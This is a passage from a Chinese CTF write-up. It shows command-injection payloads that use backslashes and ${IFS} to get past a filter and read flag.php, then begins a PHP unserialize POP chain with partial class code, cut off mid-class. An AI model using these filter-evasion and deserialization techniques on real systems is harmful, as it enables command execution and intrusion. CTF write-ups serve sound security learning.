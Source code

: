 构造 Payload 如下

```
rce=ls
```

可以发现该目录下有 `flag.php` 和 `index.php` 两个文件。

构造 Payload 如下

```
rce=c\at${IFS}f\lag.php
```

就可以得到 flag 了。

### unserialize

> https://www.php.cn/faq/485663.html

#### PHP 魔术函数

* \_\_constract：在实例化一个类时，触发
* \_\_destruct：在一个实例对象被销毁的时候触发
* \_\_call(name, arguments)：访问一个不能访问的成员方法时触发
* \_\_get()：读取不可访问属性的值时触发。

#### 解题

**链子**

1. entrance(\_\_construct)
2. entrance(\_\_destruct)
3. springboard(\_\_call)
4. evil(\_\_get)

**构造序列化**

```php
<?php

class entrance
{
    public $start;

    function __construct($start)
    {
        $this->start = $start;
    }

    function __destruct()
    {
        $this->start->helloworld();
    }
}

class springboard
{
    public $middle;

    function __call($name, $arguments)
    {
        echo $this->middle->hs;
    }
}

class evil
{
    public $end;
```